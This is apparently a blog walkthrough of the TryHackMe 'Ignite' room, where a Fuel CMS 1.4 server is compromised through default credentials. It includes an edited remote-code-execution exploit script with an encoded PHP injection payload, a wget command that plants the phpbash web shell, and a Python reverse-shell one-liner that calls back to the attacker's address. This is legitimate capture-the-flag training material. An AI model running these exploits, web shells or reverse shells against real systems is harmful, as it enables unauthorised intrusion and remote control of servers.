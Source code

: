 ```yaml
---
layout: post
title:  "TryHackMe 'Ignite' Room Walkthrough"
author: Michael
categories: [ walkthrough, writeups, tryhackme ]
image: assets/img/ignite1.png
featured: false
hidden: true
#subtitle: Excerpt from Soulshaping by Jeff Brown
#cover-img: /assets/img/path.jpg
#thumbnail-img: /assets/img/thumb.png
#share-img: /assets/img/path.jpg
#tags: [books, test]hidden: false
---
```


### RECON

The <a href="https://tryhackme.com/room/ignite">description</a> of this room indicates that we're dealing with a web server and after a full Nmap port scan, that looks like all it is. If we navigate to the respective IP address that the room gave us when the machine was deployed, you'll be welcomed with a "Welcome to Fuel CMS" landing page. This page indicates that the CMS is version 1.4 as well as some basics. It's also important to note that the default credentials for the application of `admin:admin` are listed here as well. We'll kick off a "dirb" scan of the web server but the first thing I always check for here is a robots.txt file. The robots file on this page has a lone `/fuel` entry. This URL was also noted on the main landing page. Navigating to this page yields a login.
<p><img src="/assets/img/ignite3.png"></p>

### LIGHTING THE FIRE

Whenever you're dealing with a login for something like this, remember to always keep it simple and try the low hanging fruit first. You never know when it might save you a lot of time. In this case, that was exactly what happened! The default credentials of `admin:admin` allowed me to login to the CMS. I did some poking around the app but wasn't finding any particular ways to get code execution out of the gate, so I took to the Google.

<p><img src="/assets/img/ignite2.png"></p>

It looks here like we have a code execution flaw and this version of the CMS is vulnerable to it. I pulled a copy of the exploit to my machine from <a href="https://www.exploit-db.com/exploits/47138">here</a> and then opened it up in my text editor because it's going to need some changing for it to work correctly. A portion of the code originally reads like this:

```
url = "http://127.0.0.1:8881"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	proxy = {"http":"http://127.0.0.1:8080"}
	r = requests.get(burp0_url, proxies=proxy)
  ```
However if you ran this python script as is, it would not work. There are two things I personally changed. The first thing you need to do is change the url at the top. It simply needs to read http://tryhackmeIP with the IP address the room deployed the machine to. The second thing I chose to do was comment out the proxy line with a pound sign and then remove `, proxies=proxy` from the following line. This would be find if you wanted to funnel this exploit through burp, but it's not necessary. Your final code will look something closer to this:

```
url = "http://10.0.0.117"
def find_nth_overlapping(haystack, needle, n):
    start = haystack.find(needle)
    while start >= 0 and n > 1:
        start = haystack.find(needle, start+1)
        n -= 1
    return start

while 1:
	xxxx = raw_input('cmd:')
	burp0_url = url+"/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
	#proxy = {"http":"http://127.0.0.1:8080"}
	r = requests.get(burp0_url)
  ```
Now that our code is edited, we can run it with Python. When you run it, you'll get a "cmd:" prompt. Simply type a command in there, and you should get data back like the image below. The script seems a bit broken and outputs some PHP errors, but nonetheless, we're executing code on the server.
<p><img src="/assets/img/ignite4.png"></p>
<blockquote>We ran the `whoami` command in the prompt and it output the web server user as expected: `www-data`.</blockquote>

Now, we have RCE but it's really clunky and I don't have the full shell experience, I want to elevate this RCE to a fully interactive shell experience. My personal favorite for something like this is <a href="https://github.com/Arrexel/phpbash/blob/master/phpbash.php">phpbash</a>. PHPbash allows you to run a semi-interactive shell experience right in your browser window on the web server. At this point we can print out the user flag but I am going to get to that later instead. I have the php file downloaded on my computer, I just need to transfer it to the victim machine. For this I will use both Python and wget.

First I want to open my terminal and navigate to the directory where the phpbash.php file is stored. Then I want to type `python3 -m http.server 80`. This will basically stand up a web server in whatever folder I'm in and allow others to download files out of it. Then I run `ifconfig` and I find my IP address on the tryhackme VPN. If you're on mac or linux this is usually the interface looking like `tun0` or `utun0`. Your IP address will definitely start with a 10 here. Once you have that IP address, go to your exploit where you can input commands and use:`wget http://YOURIPADDRESS/phpbash.php`. This will download phpbash into the current web server directory. You should see the HTTP requests on your terminal where you ran the http.server command. At this point you can now navigate to http://igniteIPaddress/phpbash.php and you'll have a semi-interactive, beautiful shell right there in your web browser.
<p><img src="/assets/img/ignite5.png"></p>
<blockquote>This is a much cleaner and easier way to grab user in my opinion</blockquote>

### ELEVATING OURSELVES

Typically when I get user access the first thing I want to run is `sudo -l`. There's always a chance that this can print out a list of things you're authorized to run as an elevated user. Unfortunately in this case, phpbash isn't a real terminal and it will error out if you try a lot of various privilege escalation tasks here. So, we need to get ourselves a real reverse shell. You can do this with python in phpbash. In your terminal, start a netcat listener with the command `nc -lvn 7777`. Then in phpbash, paste the following reverse shell command:

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("YOURIPADDRESS",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);`
```

After you run that in phpbash, you should see a new message on your netcat listener and have a dollar sign. If you type `whoami` on it, you will see you now have a reverse shell as "www-data". However this shell still won't do what we want it to, so we need to get full tty for an interactive shell. First, enter this python command: `python -c 'import pty; pty.spawn("/bin/bash")'`.Then, press CTRL+Z to put the shell in the background. Next, type this command in the same window: `stty raw -echo;fg`. This will bring your shell back to the foreground with full interactive experience.
<p><img src="/assets/img/ignite6.png"></p>

NOW... I spent a lot of time at this point enumerating the machine. I pulled in scripts to examine the system, I explored kernel updates, the works. However, I will not spend substantial time on that because the solution here is much easier. Back on the main page, where the default creds were listed, there was another important piece of information. In step 2, it lists a database configuration file that you need to input a username and password into. If we navigate to that file, we will see this:
<p><img src="/assets/img/ignite7.png"></p>

That's right, and if we take that in our terminal and give it a shot:
<p><img src="/assets/img/ignite8.png"></p>

I hope this walkthrough was helpful and feel free to show me how you did it different or send any recommendations to me on Twitter!
